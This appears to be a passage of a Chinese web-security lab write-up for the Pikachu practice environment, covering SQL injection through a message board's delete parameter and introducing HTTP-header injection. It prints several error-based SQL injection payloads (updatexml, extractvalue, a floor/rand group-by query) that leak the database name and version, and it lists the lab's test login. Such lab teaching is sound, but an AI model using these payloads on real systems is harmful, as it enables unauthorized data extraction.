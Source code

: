 **漏洞利用**

burpsuite抓包留言板删除键,实际上是传递了一个留言的id参数，后台会根据这个参数去操作。

后台语句一般为:
```
delete from message where id=1
```

注意，这里burpsuite对传入的url需要urlencode编码，否则会报400错误

![](./src/sql5.png)

payload: ``1 or updatexml(1, concat(0x7e,database()), 0) ``


**其它报错函数**
``' and extractvalue(1, concat(0x7e,database())) #``
``' and (select 2 from (select count(*), concat(version(), floor(rand(0) * 2))x from information_schema.tables group by x)a)#``

## http-header注入
**漏洞原理**
某些情况下，后台开发人员为了验证客户端头信息(如cookie验证)
或者通过http header获取客户端的一些信息，如user-agent,accept字段等。

会对客户端的http header信息进行获取并使用SQL进行处理，此时若没有安全措施，则可能会导致基于http header的SQL注入漏洞。

**服务端核心代码**
```php
if(isset($_GET['logout']) && $_GET['logout'] == 1){
    setcookie('ant[uname]','',time()-3600);
    setcookie('ant[pw]','',time()-3600);
    header("location:sqli_header_login.php");
}
?>
```
**漏洞利用**
> pikachu测试专用账号密码：admin/123456

![](./src/sql6.png)
